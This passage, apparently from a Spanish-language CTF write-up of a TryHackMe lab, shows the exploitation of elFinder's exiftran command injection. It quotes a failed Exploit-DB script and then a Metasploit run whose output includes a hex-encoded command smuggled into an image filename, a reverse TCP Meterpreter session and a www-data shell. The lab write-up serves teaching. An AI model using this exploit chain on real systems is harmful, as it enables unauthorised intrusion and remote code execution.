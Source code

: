## Explotación
Descargamos el exploit, lo ejecutamos y vemos que no funciona :(
```
> python2.7 46481.py http://files.lookup.thm/elFinder/
[*] Uploading the malicious image...
Traceback (most recent call last):
  File "46481.py", line 107, in <module>
    main()
  File "46481.py", line 96, in main
    hash = upload(url, payload)
  File "46481.py", line 41, in upload
    files = {'upload[]': (payload, open('SecSignal.jpg', 'rb'))}
IOError: [Errno 2] No such file or directory: 'SecSignal.jpg'
```
Enumeré la existencia de otro exploit de **Metasploit**, este último si que funcionó:
- [elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)
](https://www.exploit-db.com/exploits/46539)

```
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > exploit

[*] Started reverse TCP handler on 10.9.41.86:443 
[*] Uploading payload 'ZUtTxj.jpg;echo 6370202e2e2f66696c65732f5a557454786a2e6a70672a6563686f2a202e6158724c3732712e706870 |xxd -r -p |sh& #.jpg' (1931 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.aXrL72q.php) ...
[*] Sending stage (39927 bytes) to 10.10.38.250
[+] Deleted .aXrL72q.php
[*] Meterpreter session 1 opened (10.9.41.86:443 -> 10.10.38.250:51106) at 2024-11-23 19:12:16 +0100

meterpreter > shell
Process 2562 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls -lna
total 952
drwxr-xr-x 7 33 33   4096 Nov 23 18:12 .
d--x--x--x 8 33 33   4096 Apr  2  2024 ..
drwxr-xr-x 2 33 33   4096 Nov 23 18:12 .tmp
-rwxr-xr-x 1 33 33   1167 Apr  2  2024 MySQLStorage.sql
-rwxr-xr-x 1 33 33   2598 Apr  2  2024 autoload.php
-rwxr-xr-x 1 33 33   7329 Apr  2  2024 connector.minimal.php
drwxr-xr-x 5 33 33   4096 Apr  2  2024 editors
-rwxr-xr-x 1 33 33 167518 Apr  2  2024 elFinder.class.php
-rwxr-xr-x 1 33 33  12221 Apr  2  2024 elFinderConnector.class.php
-rwxr-xr-x 1 33 33  13126 Apr  2  2024 elFinderFlysystemGoogleDriveNetmount.php
-rwxr-xr-x 1 33 33   3331 Apr  2  2024 elFinderPlugin.php
-rwxr-xr-x 1 33 33   7767 Apr  2  2024 elFinderSession.php
-rwxr-xr-x 1 33 33   1094 Apr  2  2024 elFinderSessionInterface.php
-rwxr-xr-x 1 33 33  55445 Apr  2  2024 elFinderVolumeBox.class.php
-rwxr-xr-x 1 33 33 251064 Apr  2  2024 elFinderVolumeDriver.class.php
-rwxr-xr-x 1 33 33  41782 Apr  2  2024 elFinderVolumeDropbox.class.php
-rwxr-xr-x 1 33 33  44696 Apr  2  2024 elFinderVolumeDropbox2.class.php
-rwxr-xr-x 1 33 33  57466 Apr  2  2024 elFinderVolumeFTP.class.php
-rwxr-xr-x 1 33 33  68402 Apr  2  2024 elFinderVolumeGoogleDrive.class.php
-rwxr-xr-x 1 33 33   5371 Apr  2  2024 elFinderVolumeGroup.class.php
-rwxr-xr-x 1 33 33  44740 Apr  2  2024 elFinderVolumeLocalFileSystem.class.php
-rwxr-xr-x 1 33 33  28902 Apr  2  2024 elFinderVolumeMySQL.class.php
-rwxr-xr-x 1 33 33  61355 Apr  2  2024 elFinderVolumeOneDrive.class.php
-rwxr-xr-x 1 33 33   1583 Apr  2  2024 elFinderVolumeTrash.class.php
-rwxr-xr-x 1 33 33   1576 Apr  2  2024 elFinderVolumeTrashMySQL.class.php
```